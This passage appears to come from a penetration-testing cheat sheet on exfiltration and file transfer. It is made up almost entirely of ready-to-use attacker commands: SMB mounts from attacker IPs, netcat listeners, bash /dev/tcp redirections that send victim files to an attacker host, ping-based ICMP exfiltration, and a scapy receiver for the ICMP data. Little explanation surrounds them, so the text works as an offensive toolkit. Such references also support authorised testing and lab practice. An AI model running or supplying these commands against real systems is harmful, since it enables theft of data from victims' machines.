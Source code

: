 Windows

```bash
CMD-Wind> \\10.10.14.14\path\to\exe
CMD-Wind> net use z: \\10.10.14.14\test /user:test test #For SMB using credentials

WindPS-1> New-PSDrive -Name "new_disk" -PSProvider "FileSystem" -Root "\\10.10.14.9\kali"
WindPS-2> cd new_disk:
```

## SCP

The attacker has to have SSHd running.

```bash
scp <username>@<Attacker_IP>:<directory>/<filename> 
```

## NC

```bash
nc -lvnp 4444 > new_file
nc -vn <IP> 4444 < exfil_file
```

## /dev/tcp

### Download file from victim

```bash
nc -lvnp 80 > file #Inside attacker
cat /path/file > /dev/tcp/10.10.10.10/80 #Inside victim
```

### Upload file to victim

```bash
nc -w5 -lvnp 80 < file_to_send.txt # Inside attacker
# Inside victim
exec 6< /dev/tcp/10.10.10.10/4444
cat <&6 > file.txt
```

thanks to **@BinaryShadow\_**

## **ICMP**

```bash
#In order to exfiltrate the content of a file via pings you can do:
xxd -p -c 4 /path/file/exfil | while read line; do ping -c 1 -p $line <IP attacker>; done
#This will 4bytes per ping packet (you could probably increase this until 16)
```

```python
from scapy.all import *
#This is ippsec receiver created in the HTB machine Mischief
def process_packet(pkt):
    if pkt.haslayer(ICMP):
        if pkt[ICMP].type == 0:
            data = pkt[ICMP].load[-4:] #Read the 4bytes interesting
            print(f"{data.decode('utf-8')}", flush=True, end="")

sniff(iface="tun0", prn=process_packet)
```
